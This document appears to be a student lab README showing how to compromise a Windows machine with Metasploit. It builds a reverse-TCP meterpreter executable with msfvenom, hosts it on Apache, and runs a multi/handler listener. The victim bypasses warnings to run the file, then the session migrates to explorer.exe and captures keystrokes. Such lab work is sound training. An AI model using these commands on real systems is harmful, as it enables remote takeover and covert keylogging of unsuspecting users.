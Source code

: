 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig

## OUTPUT:
![ifconfig](https://github.com/Sanjay-2610/Compromising-windows-using-Metasploit/assets/91368803/618f13c5-561c-4994-a1a9-fa46d30c9af6)

Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT:

![msfvenom](https://github.com/Sanjay-2610/Compromising-windows-using-Metasploit/assets/91368803/1b161916-295d-415b-a0f0-b4310c136c79)

copy the fun.exe into the apache /var/www/html folder
## OUTPUT:
![fun.exe](https://github.com/Sanjay-2610/Compromising-windows-using-Metasploit/assets/91368803/c82ce3a5-3727-497c-8015-0f5d9d3e25e5)

Start apache server
sudo systemctl apache2 start
## OUTPUT:
![apache2](https://github.com/Sanjay-2610/Compromising-windows-using-Metasploit/assets/91368803/05e9c144-63c6-4347-b877-af4c918074ef)

Check the status of apache2
## OUTPUT:
![apache2](https://github.com/Sanjay-2610/Compromising-windows-using-Metasploit/assets/91368803/03634e13-6079-40f4-aeb3-97c12c61f982)

Invoke msfconsole:
## OUTPUT:
![msfconsole](https://github.com/Sanjay-2610/Compromising-windows-using-Metasploit/assets/91368803/76217e81-2cd9-47fd-aa92-b5e0d8d8817e)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
![?](https://github.com/Sanjay-2610/Compromising-windows-using-Metasploit/assets/91368803/1986dd9b-f850-46c1-813f-2ed95fbb3d15)

Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit
![css](https://github.com/Sanjay-2610/Compromising-windows-using-Metasploit/assets/91368803/9582831a-d636-4952-8d66-40e44e14e143)


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 

![277979854-03f20cd0-6941-4198-8b64-51b4d0aa0acb](https://github.com/Sanjay-2610/Compromising-windows-using-Metasploit/assets/91368803/8f99e0a7-112b-4fa3-8990-d63caf99a0d9)

Bypass any warning boxes, double-click the file, and allow it to run.
![277979954-f45f4b1c-c833-40a0-96a8-0ee7dbab4be5](https://github.com/Sanjay-2610/Compromising-windows-using-Metasploit/assets/91368803/34c71ba3-9b19-4bdf-98f9-63d09cafa808)


On kali give the command exploit
![277980045-76f43c4b-aaac-41a9-96d3-6682a3433c1b](https://github.com/Sanjay-2610/Compromising-windows-using-Metasploit/assets/91368803/3952e92f-82ab-4231-8b78-96a00c674df7)


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

![image](https://github.com/Reebak04/Compromising-windows-using-Metasploit/assets/118364993/518c3556-f762-4bd8-8ac5-816ca6a3639e)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:
migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 

![277980111-518c3556-f762-4bd8-8ac5-816ca6a3639e](https://github.com/Sanjay-2610/Compromising-windows-using-Metasploit/assets/91368803/544bd92f-7206-478e-9736-bf23746fd761)


Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![277980321-c5024173-f975-4900-8389-bbcb207baf2f](https://github.com/Sanjay-2610/Compromising-windows-using-Metasploit/assets/91368803/6be7f31e-aa4b-44be-8d25-fa9d7d5d6570)
![277980420-157a8792-65bf-4528-965e-c3cd0005e9f9](https://github.com/Sanjay-2610/Compromising-windows-using-Metasploit/assets/91368803/2d989242-f11f-4c2b-addf-25e6a6904d7a)



keyscan_dump	Shows the keystrokes captured so far
![277980515-82a9c840-cf1c-42f0-b009-5465612381af](https://github.com/Sanjay-2610/Compromising-windows-using-Metasploit/assets/91368803/12de7d39-aa6a-4fe8-bca9-75e4c1f11f02)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
